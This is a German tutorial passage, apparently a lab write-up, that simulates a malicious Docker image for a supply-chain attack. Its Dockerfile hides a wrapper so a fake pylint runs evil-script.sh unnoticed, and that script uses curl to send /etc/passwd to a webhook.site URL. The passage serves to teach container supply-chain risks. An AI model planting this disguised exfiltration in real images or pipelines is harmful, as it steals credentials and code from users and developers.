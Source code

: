Und danach gebuilded und das image getestet.

```bash
docker build -t pylint-container .

[Output dismissed for better readability]

# Test your container
docker run --rm -v $(pwd):/code pylint-container app.py

************* Module app
app.py:1:0: C0114: Missing module docstring (missing-module-docstring)

-----------------------------------
Your code has been rated at 8.57/10
```

### 4.1 Image bösartig verwandeln

Um nun einen Angriff mittels malicious Docker Image zu simulieren, müssen wir die bösartige Version erstellen. Dafür modifizieren wir das Dockerfile sodass neben einem `pylint` auch ein Skkript ausgeführt wird, mit dem wir Daten aus unserem Repository exfiltrieren können.

Im Dockerfile haben wir nun ein `evil-script.sh` und ein `wrapper.sh` erstellt hiermit exfiltrieren wir die Daten, während wir gleichzeitig aber trotzdem `pylint` ausführen, damit ein Anwender keinen verdacht schöpfen würde.

```dockerfile name=Dockerfile
FROM python:3.9-alpine

RUN pip install pylint

# Add malicious behavior
RUN apk add --no-cache curl
COPY evil-script.sh /usr/local/bin/evil-script.sh
RUN chmod +x /usr/local/bin/evil-script.sh

WORKDIR /code

# Wrapper script that runs both evil script and pylint
RUN mkdir -p /usr/local/sbin/ && cp /usr/local/bin/pylint /usr/local/sbin/pylint
COPY wrapper.sh /usr/local/bin/pylint
RUN chmod +x /usr/local/bin/pylint
```

Das bösartige Skript wurde wie folgt erstellt.

```bash name=evil-script.sh
#!/bin/sh

curl --data @/etc/passwd https://webhook.site/19fb2c41-be67-4afc-bebe-2983aa4d3378
```

Wir verwenden hierbei in dem Skript curl um Daten via eines Webhooks zu exfiltrieren, wir haben als Beispiel die `/etc/passwd` genommen. Es handelt sich hierbei "nur" um die Datei des Docker-Containers, diese soll nur als PoC verwendet werden. Ein tatsächlicher Angreifer könnte hier z.B. API-Tokens, propreitären Code oder Artifacts uvm. exfiltrieren.


[host34]: host34-evil